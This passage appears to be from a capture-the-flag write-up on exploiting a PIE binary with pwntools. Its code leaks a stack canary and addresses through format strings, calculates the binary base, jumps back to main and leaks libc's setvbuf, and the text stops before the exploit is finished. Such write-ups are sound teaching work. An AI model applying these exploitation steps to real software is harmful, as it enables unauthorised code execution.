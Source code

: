 ```python
payload = 'a' * 0x88    # padding to fill the buffer
payload += p64(canary)  # canary
payload += p64(1337)    # rbp (exact value doesn't matter)
payload += ???          # rip
p.sendline(payload)
```

The only question is... where do we jump to? Because we're running with PIE,
we don't know the location of anything in the binary at all. So, we need
another leak.

If we modify our format string leak from above, we can leak more than one
value from the stack. After a while, I noticed that while addresses from libc
tended to start with `0x7f`, addresses from our program were starting with
`0x55`. So, with a bit of playing around, I found a value on the stack that
pointed somewhere (doesn't really matter where) in our program.

Then using that leak, we can calculate the base address that the text section
of our binary is loaded in at:

```python
p.recvline_contains('name?')
p.sendline('%15$p %21$p')
line = p.recvline()
leaks = line.split()[2:]
canary = int(leaks[0], 16)
base = int(leaks[1], 16) - 0xb6d
```

Now that we have the base location, we can now jump to anywhere _within_ the
text section of our program. That's not quite enough to give us arbitrary
code exection yet, due to a lack of gadgets.

But, we can jump back to the very start of `main`! This means that we can now
keep leaking more information for us to use and eventually build up a
complete picture of where we need to jump to.

```python
payload = ...
payload += base + 0xb6d  # rip
p.sendline(payload)
```

Now we're back at the top of `main`. Now we need to try to jump to something
within libc. To do that, we'll need to know where libc is loaded, as well as
which version of libc our host system is using.

Let's leak the address of `setvbuf`:

```python
p.recvline_contains('name?')
p.sendline('%7$s    ' + p64(base + 0x202068))
line = p.recvline()
setvbuf = line.split()[2]
setvbuf = u64(setvbuf + '\00' * (8 - len(setvbuf)))
log.info('setvbuf: ' + hex(setvbuf))
```
